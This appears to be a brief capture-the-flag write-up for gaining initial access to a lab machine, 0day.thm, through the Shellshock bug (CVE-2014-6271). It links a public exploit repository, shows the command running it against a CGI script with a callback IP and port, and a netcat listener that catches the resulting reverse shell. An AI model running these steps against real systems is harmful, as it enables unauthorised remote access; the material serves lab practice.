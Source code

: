 ## Access

#### Begin

```
https://github.com/b4keSn4ke/CVE-2014-6271
```
1. payload

```
python3 shellshock.py 10.9.3.63 4444 http://0day.thm/cgi-bin/test.cgi
```

2. Listening
```
nc -lvnp 4444
```

3. connected

![alt text](image.png)
